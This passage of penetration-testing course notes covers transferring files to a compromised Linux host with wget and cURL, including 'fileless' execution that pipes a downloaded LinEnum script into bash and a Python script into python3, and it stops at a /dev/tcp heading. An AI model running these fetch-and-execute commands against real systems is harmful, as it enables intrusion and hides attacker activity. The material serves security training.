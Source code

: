 > Note: You can also upload files using the reverse operation. From your compromised target cat and base64 encode a file and decode it in your Pwnbox.

## Web Downloads with Wget and cURL

### Download a File Using wget

To download a file using `wget`, we need to specify the URL and the option uppercase `-O` to set the output filename.

```bash
  wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

### Download a File Using cURL

`cURL` is very similar to `wget`, but the output filename option is lowercase `-o`.

```bash
  curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

## Fileless Attacks Using Linux

> Note: Some payloads such as `mkfifo` write files to disk. Keep in mind that while the execution of the payload may be fileless when you use a pipe, depending on the payload chosen it may create
> temporary files on the OS.

### Fileless Download with cURL

Let's take the `cURL` command we used, and instead of downloading LinEnum.sh, let's execute it directly using a pipe.

```bash
  curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

### Fileless Download with wget

Similarly, we can download a Python script file from a web server and pipe it into the Python binary. Let's do that, this time using `wget`.

```bash
  wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
    # Hello World!
```

## Download with Bash (/dev/tcp)

There may also be situations where none of the well-known file transfer tools are available. As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the
built-in /dev/TCP device file can be used for simple file downloads.

### Connect to the Target Webserver
